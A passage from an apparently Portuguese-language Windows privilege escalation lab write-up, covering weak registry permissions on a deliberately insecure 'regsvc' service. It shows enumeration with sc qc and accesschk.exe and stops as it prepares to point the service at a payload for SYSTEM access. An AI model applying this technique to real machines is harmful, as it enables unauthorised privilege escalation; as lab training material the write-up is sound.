 
<div class="page"/>

## **<a id="5"> • Service Exploits - Weak Registry Permissions.</a>**

Agora vamos dar uma olhada no serviço `regsvc`.

```cmd
C:\Windows\system32>sc qc regsvc
sc qc regsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: regsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Insecure Registry Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

Podemos ver que o serviço `regsvc` está configurado para ser executado como `LocalSystem`, então vamos verificar as permissões do nosso usuário utilizando o `accesschk.exe`.

```cmd
PS C:\Users\user\Desktop>C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
HKLM\System\CurrentControlSet\Services\regsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE
        KEY_ALL_ACCESS
HKLM\System\CurrentControlSet\Services\regsvc\Security
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS

```

Aqui podemos ver que o usuário `user` tem permissão de escrita na chave `HKLM\System\CurrentControlSet\Services\regsvc`, então vamos alterar-la para executar um payload que irá nos dar acesso como `SYSTEM`.
